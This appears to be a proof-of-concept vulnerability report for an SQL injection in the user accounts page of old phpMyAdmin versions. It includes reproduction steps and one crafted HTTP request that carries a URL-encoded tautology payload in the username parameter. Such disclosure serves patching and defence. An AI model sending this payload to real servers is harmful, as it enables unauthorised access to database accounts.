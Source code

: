 # Vulnerability Type

SQL Injection

# Description

In phpMyAdmin 4 before 4.9.4 and 5 before 5.0.1, SQL injection exists in the user accounts page. A malicious user could inject custom SQL in place of their own username when creating queries to this page. An attacker must have a valid MySQL account to access the server.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/phpmyadmin/phpmyadmin/
 - Version: 5.0.0
 - Tested on: Windows

 ## Exploit Description

The `username` parameter is vulnerable to SQL injection due to lack of input filtering. The injection is reachable only when the `ajax_request` and `validate_username` path constraints are satisfied.

 ## Steps to Reproduce

  1. Log in phpmyadmin.
  2. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie.
  3. Observe the result.

 ## Proof Of Concept
```
GET /server_privileges.php?ajax_request=true&validate_username=set&username=%27%20OR%20%271%27%3D%271%27%20--%20 HTTP/1.1
Host: phpmyadmin
Connection: close

# Additional conditions:
# - The attacker must have a valid MySQL account to access the server.
```

